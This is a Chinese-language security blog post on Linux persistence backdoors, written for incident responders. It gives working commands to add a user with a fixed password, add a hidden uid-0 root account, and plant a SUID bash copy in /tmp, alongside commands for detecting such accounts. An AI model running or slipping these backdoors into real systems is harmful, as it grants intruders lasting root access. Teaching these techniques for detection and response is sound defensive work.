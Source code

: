 ```yaml
---
title: 第03章：权限维持篇第4篇：Linux权限维持--后门篇
date: '2024-06-13 13:10'
categories: 渗透测试
tags: 应急响应
cover: 'https://gitee.com/eviden/img/raw/master/33591dfae30e46459108dc785e1217a9.png'
description: 学习应急响应咯!
abbrlink: 72812da1
---
```

                
本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。

**1、一句话添加用户和密码**

添加普通用户：

```
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest
	
# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd
	
# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```

添加root用户：

```
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

可疑用户排查技巧：

```
# 查询特权用户特权用户(uid 为0)
[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

**2、SUID Shell**

Suid shell是一种可用于以拥有者权限运行的shell。

```
配合普通用户权限使用
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```
